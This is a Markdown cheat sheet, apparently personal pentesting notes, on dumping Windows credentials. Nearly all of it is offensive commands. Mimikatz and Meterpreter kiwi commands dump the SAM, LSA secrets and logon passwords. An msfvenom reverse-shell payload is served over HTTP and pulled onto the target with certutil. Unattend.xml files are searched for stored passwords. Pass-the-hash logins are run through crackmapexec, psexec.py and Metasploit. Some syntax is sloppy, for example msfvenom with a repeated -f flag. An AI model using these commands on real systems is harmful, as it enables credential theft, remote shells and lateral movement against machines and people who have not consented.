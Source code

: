 # Windows Credential Dumping

--------------------------------------------------------------------

## Password Hashes:

> two types of hashses LM (LanMan) and NTLM (uses MD4), being the last the latest

--------------------------------------------------------------------

## Mimikatz:

```
> Manual: 

upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
.\mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords


>With Meterpreter:

pgrep lsass
migrate
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

```

--------------------------------------------------------------------

## Windows configuration files:

```
C:\Windows\Panther\Unattend.xml 

C:\Windows\Panther\Autounattend.xml 

msfvenom -f windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > payload.exe
python -m SimpleHTTPServer 80
certutil -urlcache -f http://0.0.0.0/payload.exe
set multi/handler
if plain text is false —> the password is encoded in base64

[psexec.py](http://psexec.py) Administrator@0.0.0.0 
password
```

--------------------------------------------------------------------

## Pass The Hash:

> We can use the hash obtained before or the password obtained.

```
crackmapexec smb 0.0.0.0 -u Administrator -H “LM:NTLM”

Administrator:id:LM:NTLM

Administrator:LM:NTLM for logging


> With Metasploit:

exploit/windows/smb/psexec
set target native\ upload
set windows/x64/meterpreter/reverse_tcp

```

--------------------------------------------------------------------
